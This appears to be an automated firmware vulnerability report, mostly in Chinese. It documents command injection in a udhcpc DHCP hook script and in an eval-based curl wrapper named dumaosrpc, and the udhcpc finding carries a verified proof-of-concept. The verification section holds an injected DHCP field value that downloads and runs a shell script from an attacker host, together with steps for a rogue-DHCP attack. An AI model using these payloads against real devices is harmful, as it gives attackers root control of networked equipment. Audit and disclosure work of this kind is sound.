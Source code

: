 ## 原始信息

- **文件/目录路径：** `usr/share/udhcpc/default.script`
- **位置：** `default.script: 在 'case "$1" in renew|bound)' 部分，具体命令执行点包括 ifconfig、route 和 echo 操作`
- **描述：** 在 'default.script' 脚本的 'renew|bound' 事件处理中，环境变量 $ip、$router、$dns 等来自 DHCP 响应，被直接用于 shell 命令（如 ifconfig、route）而没有转义或验证。攻击者可通过恶意 DHCP 响应注入 shell 元字符（如分号、&、|）来执行任意命令。触发条件包括 DHCP 续订或绑定事件，脚本以 root 权限运行。潜在利用方式包括注入命令如 'touch /tmp/pwned' 或启动反向 shell，从而完全控制设备。约束条件包括攻击者需能控制 DHCP 响应（例如，通过本地网络中的中间人攻击或恶意 DHCP 服务器），但作为已连接用户，攻击者可能通过其他服务触发 DHCP 事件。
- **代码片段：**
  ```
  # 示例代码片段显示命令注入点
  $IFCONFIG $interface $ip $BROADCAST $NETMASK
  # 如果 $ip 为恶意值如 '1.1.1.1; malicious_command'，将执行注入命令
  
  for i in $router ; do
      $ROUTE add default gw $i dev $interface
      # 如果 $i 为恶意值如 '1.1.1.1; malicious_command'，将执行注入命令
  done
  
  for i in $dns ; do
      $ECHO nameserver $i >> $RESOLV_CONF
      # 虽然这是文件写入，但如果 $i 包含恶意内容，可能影响后续解析或服务
  done
  ```
- **备注：** 证据来自脚本内容，显示变量直接用于命令。可利用性高，因为攻击者可能通过控制 DHCP 响应触发漏洞。建议进一步分析 udhcpc 进程如何调用此脚本，以及与其他组件（如网络服务或 CGI 脚本）的交互，以验证完整攻击链。关联文件可能包括 /etc/udhcpc 目录中的其他脚本或 /www/cgi-bin 中的网络接口。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。在 'usr/share/udhcpc/default.script' 文件的 'renew|bound' 事件处理中，变量 $ip、$router 和 $dns 来自 DHCP 响应，被直接用于 shell 命令（如 ifconfig、route）而没有转义或验证。攻击者模型为未经身份验证的远程攻击者，可通过控制 DHCP 响应（例如，恶意 DHCP 服务器或中间人攻击）注入 shell 元字符（如分号、&、|）。代码分析显示：1) 输入可控性：攻击者可操纵 DHCP 响应中的 IP、路由器和 DNS 值；2) 路径可达性：在 DHCP 续订或绑定事件中，脚本必然执行相关命令；3) 实际影响：脚本以 root 权限运行，任意命令执行可导致设备完全控制。完整攻击链验证：攻击者设置恶意 DHCP 服务器，在响应中注入载荷（如 $ip 设置为 '192.168.1.100; wget http://attacker.com/shell.sh -O /tmp/shell.sh; sh /tmp/shell.sh'），当设备触发 DHCP 事件时，命令如 `$IFCONFIG $interface $ip ...` 执行注入的代码。PoC 步骤：1) 部署恶意 DHCP 服务器；2) 配置 DHCP 响应中的 IP 或路由器字段包含恶意命令；3) 触发设备 DHCP 续订（如重启网络接口）；4) 观察任意命令执行（如文件创建或反向 shell）。漏洞风险高，因无需身份验证且影响严重。

## 验证指标

- **验证时长：** 138.34 秒
- **Token 使用量：** 160355

---

## 原始信息

- **文件/目录路径：** `usr/bin/dumaosrpc`
- **位置：** `File: dumaosrpc, Function: rpc_func, Line: ~7 (eval command)`
- **描述：** Command injection vulnerability in the 'eval' command within the 'rpc_func' function. The script constructs a curl command string using unsanitized command-line arguments ($1 and $2) and passes it to 'eval', which interprets the string as a shell command. An attacker can inject shell metacharacters (e.g., semicolons, backticks) into the arguments to break out of the intended command and execute arbitrary commands. Trigger conditions include executing the script with malicious arguments. The script requires exactly two arguments but performs no validation on their content, making it directly exploitable. Potential attacks include full command execution under the user's privileges, which could lead to further privilege escalation or system compromise.
- **代码片段：**
  ```
  eval curl -s -X POST -u "$user:$pass" -H \"Content-Type: application/json-rpc\" \
  		-d \'{"jsonrpc": "2.0", "method": "'"${2}"'", "id": 1, "params": []}\' \
  ```